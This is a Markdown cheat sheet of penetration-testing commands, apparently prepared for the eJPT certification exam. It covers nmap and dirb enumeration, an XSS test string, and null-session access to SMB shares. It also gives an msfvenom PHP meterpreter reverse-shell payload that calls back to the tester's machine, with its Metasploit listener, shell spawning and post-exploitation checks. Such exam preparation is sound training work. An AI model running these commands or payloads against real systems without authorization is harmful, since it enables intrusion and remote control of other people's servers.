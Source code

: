 # Cheat Sheet Commands for eJPT Exam

# Network Mapping

## Network Discovery Scan
```nmap -sn <target IPs/CIDR> -oN discovery.nmap```

## Enumerate live hosts

```nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open``` (practice 3)

# Enumerate Web App directories

```dirb http://targetip```

- Remember to view page source as well!!
# Web App Attacks

## XSS Examples

- Test for XSS 
`<script>alert(1)</script>` (Returns pop up window) 

# Null Session Attacks

- Check for null session
`enum4linux -n <target IP>`
- If there is a vulnerability, should see that File Server Service is active and the <20> appear in the list.

## Exploit null session

- Gather info
`enum4linux -a <target IP>`
- Use smbclient to navigate the target machine 
`smbclient -L WORKGROUP -I <target IP> -N -U ""`
- Access shares 
`smbclient \\\\<target IP>\\<share name> -N`
- SMB navigation + downloading flag to Kali
`get Congratulations.txt /root/Desktop/Congratulations.txt`


# Prep for Reverse Shell 

## msfvenom 

- Possible malware to try on Apache servers 


```msfvenom -p php/meterpreter_reverse_tcp lhost=<VPN ip> lport=53 -o meterpreter.php```

## metasploit listener set up

```use exploit/multi/handler```
```set lhost <VPN IP>```
```set payload php/meterpreter_reverse_tcp```
```set lport 53```
```run```

# After obtaining reverse shell in meterpreter

- Friendlier terminal prompt within meterpreter
`shell`
`bash -i`

- Spawn terminal 

`python -c 'import pty;pty.spawn("/bin/bash")';`

# Post Exploitation Checks 

- Always check /etc/hosts file 
- Check /var/www for flag
